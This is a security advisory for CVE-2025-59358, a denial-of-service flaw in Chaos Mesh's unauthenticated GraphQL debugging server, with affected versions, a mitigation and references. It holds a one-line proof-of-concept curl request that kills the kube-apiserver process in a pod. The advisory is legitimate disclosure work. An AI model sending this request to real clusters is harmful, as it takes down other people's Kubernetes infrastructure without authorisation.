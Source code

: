 ```yaml
---
description: CVE-2025-59358, HIGH, Denial of Service via Unauthorized Access to Chaos Mesh debugging server
title: Chaos Mesh debugging server DoS
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id: JFSA-2025-001449533
vul_id: CVE-2025-59358
cvss: 7.5
severity: high
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

Denial of Service via Unauthorized Access to Chaos Mesh debugging server

## Component

github.com/chaos-mesh/chaos-mesh

## Affected versions

(,2.7.2]

## Description

The Chaos Controller Manager in Chaos Mesh exposes a GraphQL debugging server without authentication to the entire Kubernetes cluster, which provides an API to kill arbitrary processes in any Kubernetes pod, leading to cluster-wide denial of service.


## PoC

```shell
curl -X POST -H "Content-Type: application/json" -d '{"query": "mutation KillProcessesInPod { pod(ns: \"kube-system\", name: \"kube-apiserver-minikube\") { killProcesses(pids: [\"1\"]) { pid command } } }"}' http://controller-manager-host:10082/query

```



## Vulnerability Mitigations

If upgrading Chaos-Mesh to the fixed version is not possible, re-deploy the Helm chart and disable the **chaosctl** tool and port:

```shell
helm install chaos-mesh chaos-mesh/chaos-mesh -n=chaos-mesh --version 2.7.x --set enableCtrlServer=false
```



## References

[Fix PR](https://github.com/chaos-mesh/chaos-mesh/pull/4702)

[JFrog Technical Blog](https://jfrog.com/blog/chaotic-deputy-critical-vulnerabilities-in-chaos-mesh-lead-to-kubernetes-cluster-takeover)



